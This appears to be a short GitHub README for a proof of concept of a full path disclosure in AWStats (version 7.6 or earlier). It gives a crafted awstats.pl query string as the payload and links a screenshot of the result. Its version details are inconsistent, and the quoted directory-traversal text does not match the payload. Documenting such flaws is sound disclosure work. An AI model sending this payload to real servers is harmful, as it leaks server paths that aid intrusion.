 # AWStatsFullPathDisclosure
Full Path Disclosure at AWStats 7.6 or minor versions

Directory traversal vulnerability in AWStats before 7.0 allows remote attackers to have an unspecified impact via a crafted LoadPlugin directory.	

PAYLOAD: awstats.pl?framename=mainright&update=123123123123

RESULT:

![alt text](https://github.com/theyiyibest/AWStatsFullPathDisclosure/blob/master/full-path.jpg)

